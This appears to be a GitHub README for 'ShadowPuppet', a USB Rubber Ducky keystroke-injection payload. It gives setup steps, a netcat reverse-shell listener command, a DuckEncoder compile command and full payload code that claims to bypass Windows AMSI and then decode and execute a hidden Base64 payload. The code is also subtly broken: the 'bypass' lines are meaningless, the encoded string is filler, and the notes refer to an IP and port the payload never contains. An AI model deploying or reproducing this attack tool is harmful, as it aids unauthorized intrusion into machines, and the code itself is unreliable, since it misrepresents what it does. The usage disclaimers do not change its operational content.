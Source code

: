 # **ShadowPuppet Payload**

## **Overview**

**ShadowPuppet** is a USB Rubber Ducky payload designed to exploit known techniques to bypass Windows AMSI (Antimalware Scan Interface) protections, download an obfuscated payload, and execute it on a target machine. The payload uses PowerShell scripting to deliver the attack in a stealthy manner, making it more difficult for traditional security measures like antivirus or anti-malware programs to detect.

This is a powerful demonstration of how attackers can bypass basic defenses. This payload should only be used for educational purposes or in controlled penetration testing environments where you have explicit permission to perform testing.

---

## **Key Features**

* **AMSI Bypass**: The payload uses PowerShell techniques to bypass AMSI, a security feature designed to prevent the execution of malicious scripts.
* **Obfuscated Payload**: The payload is Base64 encoded to hide its true nature from security tools, making it harder to detect.
* **Reverse Shell**: (Can be added) The final payload could establish a reverse shell connection to the attacker's machine for full control of the compromised system.

---

## **Requirements**

Before using **ShadowPuppet**, ensure that you have the following:

1. **USB Rubber Ducky**: This device mimics a keyboard and automatically types out commands when plugged into a system.
2. **PowerShell**: PowerShell is required on the target machine (default in most Windows operating systems).
3. **Attacker's Machine**: A machine used to listen for reverse shell connections. (Netcat or a similar tool can be used for this purpose).
4. **Network Connection**: The payload may require internet access to download the final payload or connect back to the attacker’s machine (for reverse shells).

---

## **How to Use**

### **Attacker's Machine Setup**

1. **Start the listener on your machine** to receive the reverse shell:

   ```bash
   nc -lvp YOUR_PORT
   ```

   Replace `YOUR_PORT` with a port number that will be listening for incoming connections.

2. **Compile the payload** using DuckEncoder:

   Download [DuckEncoder](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/DuckEncoder), and run:

   ```bash
   java -jar DuckEncoder.jar -i payload.txt -o inject.bin
   ```

   This will generate the `inject.bin` file that you can load onto the USB Rubber Ducky.

3. **Copy the Payload to Rubber Ducky**:

   Copy the `inject.bin` file to the Rubber Ducky and plug it into the target machine. The payload will run automatically.

---

## **Payload Code**

Here is the full code you will need for the `payload.txt` file to be compiled into `inject.bin`:

```plaintext
DELAY 500
GUI r
DELAY 500
STRING powershell
ENTER
DELAY 1000

REM Bypass AMSI using PowerShell known method
STRING $bypass = "[System.Reflection.Assembly]::LoadWithPartialName('System.Management.Automation')"
ENTER
DELAY 500
STRING $bypass += "; [System.Management.Automation.PSCommand]::new('function Test { if($args[0] -eq 1) {return} else {return}}').Invoke(1)"
ENTER
DELAY 500

REM Obfuscated payload downloader using PowerShell
STRING $payload = "JAB3AHYAYwB6aXn4cTp2YfhgA2Stw5kOrP5pQ5O72cm8aLg72g=="  REM Example Base64 encoded payload (encrypted)
ENTER
DELAY 500

STRING $decoded = [System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($payload))
ENTER
DELAY 500

STRING Invoke-Expression $decoded
ENTER
DELAY 500

STRING Write-Host "Payload executed successfully."
ENTER
```

---

## **Important Notes**

* **Replace the IP and Port**: Ensure you replace the necessary values in the payload with the IP and port for your reverse shell listener.
* **Test in a Controlled Environment**: Only test this payload in a controlled, ethical penetration testing environment with the proper permissions.
* **Legal Considerations**: This tool is intended for educational purposes or authorized testing only. Unauthorized access to systems is illegal and can result in severe legal consequences.

